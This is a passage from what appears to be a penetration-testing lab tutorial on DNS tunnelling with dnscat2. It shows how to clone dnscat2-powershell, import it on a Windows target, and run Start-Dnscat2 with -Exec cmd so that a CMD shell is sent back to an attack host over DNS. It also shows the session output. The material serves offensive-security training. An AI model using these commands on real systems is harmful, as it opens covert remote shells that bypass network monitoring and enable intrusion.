 ```shell

  ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.

```

After running the server, it will provide us the secret key, which we will have to provide to our dnscat2 client on the Windows host so that it can authenticate and encrypt the data that is sent to our external dnscat2 server. We can use the client with the dnscat2 project or use [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell), a dnscat2 compatible PowerShell-based client that we can run from Windows targets to establish a tunnel with our dnscat2 server. We can clone the project containing the client file to our attack host, then transfer it to the target.

#### Cloning dnscat2-powershell to the Attack Host

```shell
git clone https://github.com/lukebaggett/dnscat2-powershell.git

```

Once the `dnscat2.ps1` file is on the target we can import it and run associated cmd-lets.

#### Importing dnscat2.ps1

```powershell
PS C:\htb> Import-Module .\dnscat2.ps1

```

After dnscat2.ps1 is imported, we can use it to establish a tunnel with the server running on our attack host. We can send back a CMD shell session to our server.

```powershell
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd

```

We must use the pre-shared secret ( `-PreSharedSecret`) generated on the server to ensure our session is established and encrypted. If all steps are completed successfully, we will see a session established with our server.

#### Confirming Session Establishment

```shell
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>

```
